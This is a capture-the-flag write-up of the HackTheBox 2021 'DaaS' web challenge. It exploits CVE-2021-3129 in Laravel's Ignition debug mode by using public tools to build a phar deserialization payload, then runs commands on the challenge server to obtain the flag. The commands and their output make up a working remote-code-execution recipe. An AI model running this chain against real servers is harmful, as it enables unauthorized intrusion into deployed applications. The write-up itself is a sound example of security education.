


# CTF HackTheBox 2021 Cyber Apocalypse 2021 - DaaS

Category: Web, Points: 300



# DaaS Solution

Let's start the docker and browse it:



So we can see it's Laravel v8.35.1.

At this version we know about the CVE-2021-3129, We can found exploit at this link [https://github.com/ambionics/laravel-exploits](https://github.com/ambionics/laravel-exploits), Let's try to use it:

```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/web/daas]
└──╼ $ git clone https://github.com/ambionics/laravel-exploits.git
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/web/daas]
└──╼ $ cd laravel-exploits
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/web/daas]
└──╼ $ git clone https://github.com/ambionics/phpggc.git
```

Now, Let's build the phar file contains our payload:
```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/web/daas]
└──╼ $ cd phpggc
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/web/daas/phpggc]
└──╼ $ php -d'phar.readonly=0' ./phpggc --phar phar -f -o /tmp/exploit.phar monolog/rce1 system ls
```

We create payload with command ```ls```, Let's run it:

```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/web/daas/phpggc]
└──╼ $ python3 ../laravel-ignition-rce.py http://165.227.231.75:31635/ /tmp/exploit.phar
+ Log file: /www/storage/logs/laravel.log
+ Logs cleared
+ Successfully converted to PHAR !
+ Phar deserialized
--------------------------
favicon.ico
index.php
robots.txt
storage
web.config
--------------------------
+ Logs cleared
```

And we get RCE.
By running ```grep -r CHTB /``` command I found the flag on ```/```.

Let's try ```ls /``` to see the files:
```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/web/daas/phpggc]
└──╼ $php -d'phar.readonly=0' ./phpggc --phar phar -f -o /tmp/exploit.phar monolog/rce1 system "ls /"
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/web/daas/phpggc]
└──╼ $ python3 ../laravel-ignition-rce.py http://165.227.231.75:31635/ /tmp/exploit.phar
+ Log file: /www/storage/logs/laravel.log
+ Logs cleared
+ Successfully converted to PHAR !
+ Phar deserialized
--------------------------
bin
boot
dev
entrypoint.sh
etc
flagAj1Xh
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
www
--------------------------
+ Logs cleared
```

And we see the file ```flagAj1Xh```, Let's cat this file:
```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/web/daas/phpggc]
└──╼ $python3 ../laravel-ignition-rce.py http://165.227.231.75:31635/ /tmp/exploit.phar
+ Log file: /www/storage/logs/laravel.log
+ Logs cleared
+ Successfully converted to PHAR !
+ Phar deserialized
--------------------------
CHTB{wh3n_7h3_d3bu663r_7urn5_4641n57_7h3_d3bu6633}
--------------------------
+ Logs cleared

```

And we get the flag ```CHTB{wh3n_7h3_d3bu663r_7urn5_4641n57_7h3_d3bu6633}```.